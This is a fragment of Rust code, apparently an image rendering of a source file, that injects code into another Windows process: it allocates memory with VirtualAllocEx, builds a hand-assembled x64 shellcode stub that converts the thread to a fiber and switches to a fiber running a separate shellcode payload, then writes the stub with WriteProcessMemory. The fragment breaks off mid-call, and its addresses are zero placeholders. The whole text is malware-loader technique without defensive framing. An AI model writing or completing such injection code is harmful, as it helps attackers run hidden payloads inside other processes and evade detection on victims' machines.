 ```rust
    let base_address = VirtualAllocEx(
        process_info.hProcess,
        ptr::null_mut(),
        code.len() + 1024, // Extra space for fiber context
        MEM_RESERVE | MEM_COMMIT,
        PAGE_READWRITE,
    );
    
    if base_address.is_null() {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to allocate memory: {}", error).into());
    }
    
    // Create fiber initialization shellcode
    // This will:
    // 1. Convert thread to fiber
    // 2. Create fiber for our shellcode
    // 3. Switch to our fiber
    // Simple x64 shellcode stub for fiber initialization
    let fiber_init_code: Vec<u8> = vec![
        // Save registers
        0x48, 0x89, 0x5C, 0x24, 0x08,           // mov [rsp+8], rbx
        0x48, 0x89, 0x6C, 0x24, 0x10,           // mov [rsp+10h], rbp
        0x48, 0x89, 0x74, 0x24, 0x18,           // mov [rsp+18h], rsi
        0x57,                                    // push rdi
        0x48, 0x83, 0xEC, 0x20,                  // sub rsp, 20h
        
        // ConvertThreadToFiber(NULL)
        0x48, 0x31, 0xC9,                        // xor rcx, rcx
        0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, ConvertThreadToFiber
        0xFF, 0xD0,                              // call rax
        0x48, 0x89, 0xC3,                        // mov rbx, rax (save main fiber)
        
        // CreateFiber(0, shellcode_addr, NULL)
        0x48, 0x31, 0xC9,                        // xor rcx, rcx
        0x48, 0xBA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdx, shellcode_addr
        0x4D, 0x31, 0xC0,                        // xor r8, r8
        0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, CreateFiber
        0xFF, 0xD0,                              // call rax
        0x48, 0x89, 0xC7,                        // mov rdi, rax (save shellcode fiber)
        
        // SwitchToFiber(shellcode_fiber)
        0x48, 0x89, 0xF9,                        // mov rcx, rdi
        0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, SwitchToFiber
        0xFF, 0xD0,                              // call rax
        
        // Restore registers and return
        0x48, 0x8B, 0x5C, 0x24, 0x30,           // mov rbx, [rsp+30h]
        0x48, 0x8B, 0x6C, 0x24, 0x38,           // mov rbp, [rsp+38h]
        0x48, 0x8B, 0x74, 0x24, 0x40,           // mov rsi, [rsp+40h]
        0x48, 0x83, 0xC4, 0x20,                  // add rsp, 20h
        0x5F,                                    // pop rdi
        0xC3                                     // ret
    ];
    
    // Write the fiber initialization code
    let result = WriteProcessMemory(
        process_info.hProcess,
        base_address,
        fiber_init_code.as_ptr() as *const c_void,
```